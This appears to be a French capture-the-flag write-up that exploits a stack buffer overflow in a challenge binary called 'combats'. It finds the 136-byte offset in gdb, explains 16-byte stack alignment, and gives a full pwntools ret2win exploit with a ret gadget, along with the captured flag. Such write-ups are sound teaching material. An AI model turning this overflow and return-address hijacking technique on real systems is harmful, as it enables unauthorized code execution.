




# WriteUp

## Analyse de l'ELF

```bash
$ checksec combats
[*] '/tmp/combats'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

En décompilant via Ghidra, nous voyons 2 fonctions intéressantes, vulnerable et guerrier :



La fonction main() ne semble pas appeler guerrier() :



La fonction guerrier() est intéressante puisqu'elle nous permet d'exécuter un "cat flag.txt" :



La fonction vulnerable() déclare une variable de 128 octets mais semble en stocker  bien plus...



Regardons cela dans gdb en insérant une large entrée :

```bash
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'
gdb-peda$ r
Starting program: /tmp/combats
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Ceux qui osent défier l'esprit du combat doivent être prêts à tout risquer. Le moindre faux mouvement peut vous conduire à la défaite. Préparez-vous, car le combat sera rude.
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x100
RBX: 0x0
RCX: 0x7ffff7ea07e2 (<__GI___libc_read+18>:     cmp    rax,0xfffffffffffff000)
RDX: 0x100
RSI: 0x7fffffffdbf0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
RDI: 0x0
RBP: 0x6c41415041416b41 ('AkAAPAAl')
RSP: 0x7fffffffdc78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
RIP: 0x401240 (<vulnerable+67>: ret)
R8 : 0xb8
R9 : 0x7ffff7fc9040 (<_dl_fini>:        endbr64)
R10: 0x7ffff7d925e8 --> 0xf001200001a64
R11: 0x246
R12: 0x7fffffffdda8 --> 0x7fffffffe02d ("/tmp/combats")
R13: 0x401241 (<main>:  push   rbp)
R14: 0x403df0 --> 0x401150 (endbr64)
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10207 (CARRY PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401239 <vulnerable+60>:    call   0x401070 <read@plt>
   0x40123e <vulnerable+65>:    nop
   0x40123f <vulnerable+66>:    leave
=> 0x401240 <vulnerable+67>:    ret
   0x401241 <main>:     push   rbp
   0x401242 <main+1>:   mov    rbp,rsp
   0x401245 <main+4>:   sub    rsp,0x10
   0x401249 <main+8>:   mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0008| 0x7fffffffdc80 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0016| 0x7fffffffdc88 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0024| 0x7fffffffdc90 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0032| 0x7fffffffdc98 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0040| 0x7fffffffdca0 ("AuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0048| 0x7fffffffdca8 ("AAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0056| 0x7fffffffdcb0 ("ZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401240 in vulnerable ()
```

Nous voyons que nous parvenons à écrire sur $rsp à l'offset 136, cela signifie que nous contrôlons l'adresse de la fonction suivant l'exécution de la fonction vulnerable() (après son ret). Voyons à quel offset :

```bash
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 128
Registers point to pattern buffer:
[RSI] --> offset 0 - size ~203
[RSP] --> offset 136 - size ~194
[...]
```

Nous devons aussi vérifier si la stack est bien alignée, en effet, si la valeur de $rsp n'est pas divisible par 0x10 (16 en hexadécimal), la suite de l'exécution ne se passera pas comme nous le souhaiterions en fonction de l'adresse de la fonction qui se retrouvera au sommet de la pile.

<details>
  <summary>Pourquoi aligner la stack ?</summary>

Lorsque nous exploitons une vulnérabilité de buffer overflow pour rediriger l'exécution vers une fonction spécifique comme ```guerrier()```, il est crucial de prendre en compte l'alignement de la pile (stack) pour assurer le bon fonctionnement du programme.

Dans l'architecture x86_64, la convention d'appel (ABI - Application Binary Interface) stipule que le pointeur de pile (```$rsp```) doit être aligné sur 16 octets avant l'appel d'une fonction. Cet alignement est nécessaire car de nombreuses instructions SSE et certaines fonctions de la bibliothèque standard C supposent que la pile est correctement alignée. Si cet alignement n'est pas respecté, cela peut entraîner des comportements indéfinis, des plantages ou des erreurs d'exécution.

Dans notre cas, en écrasant $rsp avec l'adresse de la fonction ```guerrier()```, nous redirigeons effectivement le flux d'exécution vers cette fonction. Cependant, le buffer overflow et l'écrasement du pointeur de pile peuvent désaligner la pile. Cela signifie que lorsque ```guerrier()``` est appelée, la pile n'est plus alignée sur 16 octets comme l'exige l'ABI.

Lorsque ```guerrier()``` exécute ```puts("Félicitations, jeune guerrier, votre bravoure mérite les honneurs...")```, cette fonction de la bibliothèque standard s'attend à ce que la pile soit correctement alignée. Si ce n'est pas le cas, elle peut fonctionner partiellement (afficher "Félicitations, jeune guerrier, votre bravoure mérite les honneurs...") mais rencontrer des problèmes lors d'appels internes ou de l'exécution d'instructions SSE, ce qui peut entraîner un arrêt du programme ou sa sortie prématurée après le ```puts()```.

Pour résoudre ce problème d'alignement, il est nécessaire de :

* Ajuster l'alignement de la pile : Modifier notre payload pour ajouter du remplissage (padding) afin de réaligner ```$rsp``` sur un multiple de 16 octets avant l'appel à ```guerrier()```. Cela garantit que toutes les fonctions appelées au sein de ```guerrier()``` trouvent la pile dans l'état attendu.
* Utiliser une autre méthode d'exploitation : Injecter directement l'adresse des instructions qui préparent les arguments pour ```system()``` et effectuer l'appel peut contourner le problème d'alignement, car nous contrôlons précisément l'état de la pile et pouvons nous assurer qu'elle est correctement alignée.

En résumé, le souci d'alignement de la pile provient du fait que les conventions d'appel en x86_64 exigent un alignement spécifique pour garantir le bon fonctionnement des fonctions. Ne pas respecter cet alignement lors de l'exploitation d'un buffer overflow peut conduire à des comportements imprévus ou à des plantages, ce qui nécessite des ajustements spécifiques dans notre méthode d'exploitation pour assurer la réussite de l'attaque.

</details>


```bash
gdb-peda$ p/x $rsp
$1 = 0x7fffffffdc78
```

0x7fffffffdc78 % 0x10 = 0x8, nous devrons donc aligner la stack avant d'appeler l'adresse d'une fonction, au hasard guerrier() 😅. Pour cela, il suffit d'exécuter une instruction ret avant de spécifier l'adresse de guerrier() dans le payload.

## Récupération d'un gadget ret

La pile étant non exécutable (NX) et l'ASLR étant sûrement activée, nous devons trouver un gadget ret dans la section statique du programme.

```bash
❯ ROPgadget --binary combats | grep ret
[...]
0x000000000040101a : ret
[...]
```

## Récupération de l'adresse de la fonction "guerrier"

```bash
❯ readelf -s combats | grep guerrier
    30: 00000000004011d8    37 FUNC    GLOBAL DEFAULT   14 guerrier
```

Il suffit donc de remplir le buffer avec 136 octets de n'importe quoi, puis l'adresse vers ret (0x40101a) pour aligner la pile puis l'adresse vers guerrier() (0x4011d8) pour qu'elle soit appelée.

## Exploit

```python
#!/usr/bin/env python3

import sys
from pwn import *

context(arch="amd64", os="linux", endian="little", word_size=64)

p = remote("challenges.hackagou.nc", 5003)

guerrier_addr = 0x4011d8
ret_addr = 0x40101a

payload = b'A' * 136
payload += p64(ret_addr)
payload += p64(guerrier_addr)

p.readuntil(b'> ')
p.sendline(payload)
p.interactive()
```
```bash
$ python pwn-combats.py
[+] Opening connection to challenges.hackagou.nc on port 5003: Done
[*] Switching to interactive mode
Félicitations, jeune guerrier, votre bravoure mérite les honneurs...
OPENNC{L3_GU3RR13r_c0mb47_4v3C_H0nN3uR.}
[*] Got EOF while reading in interactive
```
